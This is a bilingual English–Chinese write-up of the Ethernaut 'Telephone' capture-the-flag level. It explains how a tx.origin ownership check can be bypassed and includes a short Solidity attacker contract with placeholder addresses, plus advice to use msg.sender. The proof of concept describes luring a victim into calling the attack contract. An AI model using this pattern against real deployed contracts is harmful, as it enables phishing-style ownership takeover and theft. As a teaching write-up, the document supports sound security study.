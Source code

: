 # ⚙️ Challenge: Ethernaut – 04.Telephone

## Exploit Idea: Using `tx.origin` for permission checking can lead to phishing-style attacks

## 漏洞思路：使用 `tx.origin` 做权限校验可能导致钓鱼式攻击

---

## 🧠 Concept Summary / 概念总结

if a contract uses `tx.origin` for permission checking like this:
如果某个合约像这样使用 `tx.origin` 进行权限校验：

```javascript
    function transfer(address to, uint amount) public {
        require(tx.origin == owner, "Not owner");
        // 转账逻辑...
    }
```

This check can potentially be bypassed by calling the contract through an intermediary contract (“Contract A” calling “Contract B”).
可以通过“合约 A 调用合约 B”的方式绕过 tx.origin == owner 的判断。

---

## 🔬Proof of Concept / 概念证明

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker{
    function attack() external {
        address telephoneContractAddr = <victim-contract-address>;
        (bool success ,bytes memory data) = telephoneContractAddr.call(
            abi.encodeWithSignature("changeOwner(address)", <attacter-address>)
        );
    }
}
```

If you can trick the victim into interacting with this attack contract,
you can exploit tx.origin to bypass the permission check.
Because tx.origin will always be the original external user — in this case, the victim.
如果你诱导受害者与攻击合约产生交互，就能利用 tx.origin 绕过权限验证。
因为 tx.origin 永远指向交易最初发起的外部账户，也就是受害者。

---

## 📝Notes

1. Using msg.sender is much safer than using tx.origin.
   相较于 tx.origin，使用 msg.sender 更加安全。
2. Be cautious when designing admin-level or transfer functions.
   Flexibility often introduces more potential attack surfaces.
   在设计管理员操作或转账函数时需要格外小心，越灵活的设计往往意味着越大的攻击面。

